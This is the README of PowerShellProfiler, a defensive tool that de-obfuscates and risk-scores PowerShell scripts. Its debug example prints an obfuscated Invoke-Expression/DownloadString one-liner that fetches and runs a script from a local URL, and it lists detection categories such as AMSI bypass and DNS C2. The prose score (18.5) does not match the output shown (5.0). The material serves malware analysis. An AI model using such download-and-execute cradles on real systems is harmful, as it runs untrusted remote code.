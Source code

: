 # PowerShellProfiler

This project code  is  from https://github.com/pan-unit42/public_tools/tree/master/powershellprofiler

 ### Introductation

PowerShellProfiler.py is a script for statically analyzing PowerShell scripts by de-obfuscating and normalizing the content which is then profiled for behavioral indicators. These behaviors are then scored and the aggregate of the scores will provide a possible risk level for the PowerShell script. This was created to highlight a practical way of tackling bulk analysis of PowerShell scripts and to assist blue teams by offering another tool that can be used to speed up analysis.

In the [Unit42 Blog Series - "Practical Behavioral Profiling of PowerShell Scripts through Static Analysis"](https://unit42.paloaltonetworks.com/practical-behavioral-profiling-of-powershell-scripts-through-static-analysis-part-1/) it covers concept, design, and the pros and cons to this approach of statically profiling behaviors within PowerShell scripts.

```
usage: PowerShellProfiler.py [-h] -f <file_name> [-d]

PowerShellProfiler analyzes PowerShell scripts statically to identify and
score behaviors.

optional arguments:
  -h, --help            show this help message and exit
  -f <file_name>, --file <file_name>
                        PowerShell Script to behaviorally profile
  -d, --debug           Enables debug output
```

### Output Result

Standard usage is fairly straight forward. Simply use the "-f" flag to pass a file name (PowerShell Script, ScriptBlock Log Export, Text File, etc) and the PowerShellProfiler.py script will output the results.

```
C:\Users\Al1ex\Desktop\PowerShellProfiler>python3 PowerShellProfiler.py -f C:\Users\Al1ex\Desktop\Powershell\1.ps1
C:\Users\Al1ex\Desktop\Powershell\1.ps1 , 5.0 , Mild Risk , 0:00:00.008002 , [Downloader - 1.5 | Script Execution - 1.5 | One Liner - 2.0]
```

![standard](image/standard.png)

Output is comma-delimited and uses the following fields:

```
File Name , Profiling Score , Proposed Risk Level , Analysis Runtime , Behaviors (pipe-delimited)
```

In this case, the file "1.ps1" was identified as having characteristics/behaviors that asuggest the script is capable of downloading content, starting a process, executing additional script content, uses compression, enumerate some kind of system information, the entire script fits on one-line, and there are patterns which match a known malwware family "Veil". These behaviors are individually scored and add up to 18.5, which is in the range of the highest risk.

Additionally, there is a "debug" mode with the "-d" flag which is useful for troubleshooting failed decoding/deobfuscation, long run times, analyzing decoded content for new behaviors, and generally just more verbose output.

```
C:\Users\Al1ex\Desktop\PowerShellProfiler>python3 PowerShellProfiler.py -d -f C:\Users\Al1ex\Desktop\Powershell\1.ps1
Opened File C:\Users\Al1ex\Desktop\Powershell\1.ps1
[+] Normalization Function
        [!] Format Replaced - True: 0:00:00.000997
        [!] Format Replaced - True: 0:00:00
[+] Normalization Function
[+] Normalization Function


##### TIMING / MATCH #####

Main Processing: 0:00:00.003988
Family ID: 0:00:00.001995
Behavior Check - Code Injection: 0:00:00
Behavior Check - Key Logging: 0:00:00
Behavior Check - Screen Scraping: 0:00:00
Behavior Check - AppLocker Bypass: 0:00:00
Behavior Check - AMSI Bypass: 0:00:00
Behavior Check - Clear Logs: 0:00:00
Behavior Check - Coin Miner: 0:00:00
Behavior Check - Embedded File: 0:00:00
Behavior Check - Abnormal Size: 0:00:00
Behavior Check - Ransomware: 0:00:00
Behavior Check - DNS C2: 0:00:00
Behavior Check - Disabled Protections: 0:00:00
Behavior Check - Negative Context: 0:00:00
['DownloadString']
Behavior Check - Downloader: 0:00:00
Behavior Check - Starts Process: 0:00:00
['Invoke-Expression']
Behavior Check - Script Execution: 0:00:00
Behavior Check - Compression: 0:00:00
Behavior Check - Hidden Window: 0:00:00
Behavior Check - Custom Web Fields: 0:00:00
Behavior Check - Persistence: 0:00:00
Behavior Check - Sleeps: 0:00:00
Behavior Check - Uninstalls Apps: 0:00:00
Behavior Check - Obfuscation: 0:00:00
Behavior Check - Crypto: 0:00:00
Behavior Check - Enumeration: 0:00:00
Behavior Check - Registry: 0:00:00
Behavior Check - Sends Data: 0:00:00
Behavior Check - Byte Usage: 0:00:00
Behavior Check - SysInternals: 0:00:00
Behavior Check - One Liner: 0:00:00
Behavior Check - Variable Extension: 0:00:00
Behavior Check - Script Logging: 0:00:00
Behavior Check - License: 0:00:00
Behavior Check - Function Body: 0:00:00
Behavior Check - Positive Context: 0:00:00
Behavior ID: 0:00:00.010971
C:\Users\Al1ex\Desktop\Powershell\1.ps1 , 5.0 , Mild Risk , 0:00:00.018915 , [Downloader - 1.5 | Script Execution - 1.5 | One Liner - 2.0]


##### ORIGINAL SCRIPT #####

.("{4}{1}{0}{2}{3}" -f 'Express','-','io','n','Invoke') (&("{2}{0}{3}{1}"-f 'e','-Object','N','w') System.Net.WebClient).DownloadString("http://127.0.0.1:4444/Al1ex.txt")

##### ALTERED SCRIPT #####

."Invoke-Expression" (&"New-Object" System.Net.WebClient).DownloadString("http://127.0.0.1:4444/Al1ex.txt")

C:\Users\Al1ex\Desktop\PowerShellProfiler>
```

![debug](image/debug.png)